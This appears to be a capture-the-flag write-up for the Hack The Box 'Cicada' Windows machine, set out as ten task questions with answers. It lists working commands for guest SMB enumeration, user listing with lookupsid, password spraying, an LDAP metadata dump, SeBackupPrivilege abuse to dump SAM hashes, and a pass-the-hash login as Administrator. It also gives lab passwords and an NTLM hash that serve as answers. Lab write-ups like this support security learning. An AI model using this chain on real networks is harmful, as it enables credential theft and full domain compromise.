










### Task 1

What is the name of the non-default SMB share that is readable with guest access on Cicada?

Running ``smbclient -N -L //<target_ip>`` to connect to the share server without providing a password and list the shares we see two non-default shares named ``DEV`` and ``HR``. 



Next, to see which one is readable as a guest, we will try to connect to those specific shares. Running ``smbclient -N //<target_ip>/<share_name>`` we see the one we have access to read is the ``HR`` share.



### Task 2

What is the name of the file found in the HR share? 

Seen in the previous task, from listing the contents of the HR share, the file name is "Notice from HR.txt".

### Task 3

Which user account is still using the company default password?

To see the contents of the file found, we can transfer it to the host by running ``get "Notice from HR``.txt". Opening it, we see a welcoming message to a new hire with the default password but it does not give a username



Then, we can try to enumerate domain users on the target IP and save them to a file by running ``lookupsid.py anonymous@<target_ip> > lookupsid_output.txt``. Then, we save the usernames cleanly we run ``grep '(SidTypeUser)' lookupsid_output.txt | awk -F '\\' '{print $2}' | cut -d' ' -f1 > users.txt``.  Finally using the password found in the file, we can perform a password spray attack by running ``netexec smb <target_ip> -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`` and find the username to be michael.wrightson.


### Task 4

Which user has left their password in Active Directory metadata?

We dump the AD metadata using ``ldapdomaindump -u cicada.htb\\michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' <target_ip>``. We then try the command ``grep -iE 'pass|key|desc|comment' domain_users.json`` to look for password in the file matching any lines that contain the mentioned keywords. 



After finding the password we can try to connect with it using the users.txt file from the previous task as ``netexec smb <target_ip> -u users.txt -p 'aRt$Lp#7t*VQ!3'``.



<!--truncate--> 

### Task 5

What is the name of the PowerShell script located in the DEV share?

Connecting to the DEV share with the credential found in the previous task by running ``smbclient //<target_ip>/DEV -U 'cicada.htb\\david.orelious%aRt$Lp#7t*VQ!3'`` we find the Powershell script after listing the contents.



### Task 6

What is the emily.oscars user's password?

We get the file in our host by running ``get Backup_script.ps1`` and after exiting smb we open the file and locate the user's password.



### Task 7

Submit the flag located in the emily.oscars user's home directory.

We will try to connect to the default share with the credential found for emily.oscars by running ``smbclient //<target_ip>/C$ -U 'cicada.htb\\emily.oscars%Q!3@Lp#M6b*7t*Vt'``. We then navigate to here home directory with the relative path ``\Users\emily.oscars.CICADA\DESKTOP\`` and run ``get user.txt`` to get the user flag and open it with ``cat`` on the host machine.

### Task 8

What dangerous privilege does the emily.oscar user have associated with their account?

First we connect with the credentials for the emily user ``evil-winrm -i <host_ip> -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'``. Then, we run ``whoami /priv`` to display the privieges that the user holds on the system and we find that the ``SeBackupPrivilege`` is enabled for the current user which permits reading any file. 



### Task 9 

What is the Administrator user's NTLM hash?

Keeping the evil-winrm session active, we will save the Windows regitstry hives by running the following: 

```
reg save HKLM\SAM C:\Users\emily.oscars\Documents\sam.save
reg save HKLM\SYSTEM C:\Users\emily.oscars\Documents\system.save
``` 

We download both files to the local machine by :
```
download sam.save
download system.save
```

Then, to extract the NTLM hashes we run ``secretsdump.py -system system.save -sam sam.save LOCAL``. This command decrypts the SAM file using the SYSTEM hive and displays local user account hashes. The NTLM hash is the third colon-separated field in the output.



### Task 10

Submit the flag located on the Administrator user's Desktop.

We can now perrform a Pass-The-Hash attack to impersonate the Administrator using the hash we found in the previous task. Since evil-winfrm supports PtH directly we run ``evil-winrm -i <target_ip> -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341`` and running ``whoami`` we validate we are "cicada\administrator". Navigating to the Desktop we get the flag by running ``cat root.txt``.